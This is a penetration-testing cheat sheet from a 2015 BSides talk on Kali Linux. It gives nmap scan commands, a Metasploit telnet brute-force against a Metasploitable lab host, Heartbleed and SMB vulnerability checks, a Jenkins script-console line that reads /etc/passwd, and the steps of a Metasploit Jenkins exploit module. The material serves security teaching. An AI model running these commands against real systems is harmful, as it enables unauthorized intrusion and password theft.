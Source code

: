 Finding Low Hanging Fruit with Kali
===================================
This cheat sheet was developed to accompany the talk Finding Low Hanging Fruit with Kali, which was presented at [Bsides Nashville](http://bsidesnash.org/) in April 2015.

How to Get Kali
---------------
Kali is available for download at http://kali.org/downloads

Setup Kali for First Use
------------------------
Run `apt-get update` to get the latest package lists.

Run `apt-get upgrade` to install the latest packages.

Some packages may be held back, install those packages using `apt-get dist-upgrade` or `apt-get install <package_name>`.

Use `apt-get autoremove` to remove packages that are no longer needed.

Setup Metasploit for First Use
------------------------------
Start the Postgres and Metasploit services

    service postgresql start
    service metasploit start

To have the Postgres and Metasploit services start up at boot time.

    update-rc.d postgresql enable
    update-rc.d metasploit enable

Unnecessary Services
--------------------
TCP scan against 10.1.1.4-254

    nmap 10.1.1.4-254

UDP scan of top ten ports against 10.1.1.4-254

    nmap -sU --top-ports 10.1.1.4-254

Aggressive scan against 10.1.14-254 and save to an XML file.

    nmap -A -oX local_network.xml 10.1.1.4-254

Import the scan results into Metasploit

    msfconsole
    db_import local_network.xml
    hosts
    services
    services -p 23

Finding Weak Passwords
----------------------
Look at the wordlists in the wordlists folder

    cd /usr/share/wordlists
    ls
    sudo gunzip rockyou.txt.gz

Brute-force the Telnet service on Metasploitable

    use auxiliary/scanner/telnet/telnet_login
    show options
    set USERNAME msfadmin
    set PASS_FILE /usr/share wordlists/fasttrack.txt
    set USER_AS_PASS true
    set BLANK_PASSWORDS true
    services -p 23 -R
    run

Exploitable Vulnerabilities
---------------------------
Find heartbleed vulnerabilities

    nmap -p 443 --script=ssl-heartbleed 10.1.1.4-254

Find SMB vulnerabilities

    nmap --script=smb-check-vulns 10.1.1.4-254  # Unsafe warning
    nmap --script=smb-check-vulns --script-args=unsafe=1 10.1.1.4-254

Web-Based Admin Interfaces
--------------------------
Find the Jenkins interface

    nmap -A -p 80,443,5800,8000,8080 10.1.1.4-254

Once we find Jenkins go to the admin interface and look for the script console.

    proc = [‘cat’, ‘/etc/passwd’].execute()
    println proc.in.txt

Metasploit also has a module for this.

    use exploit/multi/http/jenkins_script_console
    show options
    set RHOST 10.1.1.7
    set RPORT 8080
    set TARGETURI /
    show targets
    set TARGET 1
    exploit

Metasploit has a lot of exploits for web interfaces

    search /http/

Online Resources
----------------
[Metasploit Unleashed](http://www.offensive-security.com/metasploit-unleashed/Main_Page)
[Nmap Tutorial](http://www.cyberciti.biz/networking/nmap-command-examples-tutorials/)
